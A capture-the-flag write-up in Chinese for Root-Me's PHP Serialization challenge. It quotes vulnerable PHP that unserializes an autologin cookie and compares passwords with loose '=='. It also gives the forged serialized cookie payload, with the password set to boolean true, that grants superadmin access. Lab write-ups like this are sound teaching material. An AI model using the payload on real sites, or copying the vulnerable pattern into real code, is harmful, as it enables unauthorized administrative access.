



Root-Me [PHP Serialization](https://www.root-me.org/en/Challenges/Web-Server/PHP-Serialization)
===

簡易登入頁面，提供帳號 guest/guest。

## 解題關鍵
1. Serialization
2. PHP

## 提示訊息
```
Get an administrator access !
```

## 解題方法
這題有提供原始碼可以查看，以下為驗證帳號的部分，可以發現有弱點的部分在於 `autologin` 的部分，因為 `autologin` 的 Cookie 是可以偽造的。  

```PHP
if(!isset($_SESSION['login']) || !$_SESSION['login']) {
    $_SESSION['login'] = "";
    // form posted ?
    if($_POST['login'] && $_POST['password']){
        $data['login'] = $_POST['login'];
        $data['password'] = hash('sha256', $_POST['password']);
    }
    // autologin cookie ?
    else if($_COOKIE['autologin']){
        $data = unserialize($_COOKIE['autologin']);
        $autologin = "autologin";
    }

    // check password !
    if ($data['password'] == $auth[ $data['login'] ] ) {
        $_SESSION['login'] = $data['login'];

        // set cookie for autologin if requested
        if($_POST['autologin'] === "1"){
            setcookie('autologin', serialize($data));
        }
    }
    else {
        // error message
        $message = "Error : $autologin authentication failed !";
    }
}
```

原始碼繼續看下去，可以發現當 `SESSION['login']` 等於 `superadmin` 時會到達管理頁面，Flag 可能就藏在管理頁面，所以簡單的邏輯建立起來，創建偽造的 `autologin` Cookie 值來垂直提權。  

```php
// message ?
if(!empty($message))
    echo "<p><em>$message</em></p>";

// admin ?
if($_SESSION['login'] === "superadmin"){
    require_once('admin.inc.php');
}
// user ?
elseif (isset($_SESSION['login']) && $_SESSION['login'] !== ""){
    require_once('user.inc.php');
}
```

回到題目，嘗試登入 guest 帳號，並且勾選 `Autologin next time` 的選項，可以看到下圖送出三個參數。  

  

接著查看 `Cookie` 發現有個 `autologin` 的 Cookie 被建立了。

  

把參數取出，得到以下字串。  

```
a%3A2%3A%7Bs%3A5%3A%22login%22%3Bs%3A5%3A%22guest%22%3Bs%3A8%3A%22password%22%3Bs%3A64%3A%2284983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec%22%3B%7D
```

直覺得知已經經過 URLencode 了，所以透過[URLdecode工具](https://www.urldecoder.org)解碼得到。  

```
a:2:{s:5:"login";s:5:"guest";s:8:"password";s:64:"84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec";}
```

這邊嘗試將 `guest` 改成 `superadmin` 看看，並且要修改前面的 `s`，`s` 所代表的意思是，帶有幾個字元，如 `superadmin` 共有 10 個字元，所以改為以下的樣子。  

```
a:2:{s:5:"login";s:10:"superadmin";s:8:"password";s:64:"84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec";}
```

並且需要透過 URLencode 工具進行編碼，並且送出後毫無反應，經過一番嘗試之後，是要將 Cookie 中的 `PHPSESSID` 移除掉，接著重新整理，但是卻跳出了 `autologin authentication failed !`。  

重新審視原始碼的部分，如下方片段，可以看見關鍵的 `if ($data['password'] == $auth[ $data['login'] ] )`，這部分的 `$data` 來自序列化的 `password` 參數，接著往右看到 `$auth[$data['login']]`，猜測這邊是個字串比較，但使用了 `==`，弱型別的判斷，可控的部分為 `$data['password']`，如果透過序列化填入 `True` 應該就可以順利繞過。  

```PHP
// check password !
if ($data['password'] == $auth[ $data['login'] ] ) {
    $_SESSION['login'] = $data['login'];

    // set cookie for autologin if requested
    if($_POST['autologin'] === "1"){
        setcookie('autologin', serialize($data));
    }
}
else {
    // error message
    $message = "Error : $autologin authentication failed !";
}
```

所以 Payload 如下。  

```
a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}
```

編碼後如下。  

```
a%3A2%3A%7Bs%3A5%3A%22login%22%3Bs%3A10%3A%22superadmin%22%3Bs%3A8%3A%22password%22%3Bb%3A1%3B%7D
```

解決該題（如果跑不出來，記得清除 `PHPSESSID`）。  

  

## Reference
https://www.neatstudio.com/show-161-1.shtml  


## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)